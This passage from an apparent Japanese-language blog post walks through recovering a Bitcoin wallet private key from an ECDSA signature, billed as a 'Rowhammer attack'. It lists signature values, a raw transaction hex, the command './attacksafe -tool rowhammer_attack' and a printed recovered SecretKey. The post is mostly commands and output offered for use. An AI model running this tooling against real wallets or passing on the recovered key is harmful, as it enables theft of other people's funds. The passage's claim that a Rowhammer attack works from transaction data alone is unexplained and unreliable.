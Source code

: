 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-132-1024x302.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1217"/></figure>



<pre class="wp-block-code"><code>R = 0x04b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb2
S = 0x282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad5
Z = 0x7270a25b48c53581f9babe8edcf27f9a038e7b57e817a8b242a49e2248bc71a7</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>脆弱な ECDSA 署名トランザクションから秘密鍵を取得するために、データを<code>RawTX</code>テキスト ドキュメントに追加してファイルとして保存しましょう<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>010000000104118e34a0d3c06c842d14707ed5f333d3ba1d35240086a4b5738a2fa810abec1d0000006a473044022004b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb20220282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad501210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff014e020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool rowhammer_attack</code>ソフトウェアを使用して起動する<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-135-1024x351.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1225"/></figure>



<p>この攻撃は から開始され<code>-tool rowhammer_attack</code>、結果はファイルに保存されました<code>SecretKey.txt</code></p>



<p>成功した結果を確認するには、ファイルを開きます<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-136-1024x524.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1227"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xe5fa9dccef88781e25e77bd1ea7830c0b33c57481b79007cda117da8139ea7c3
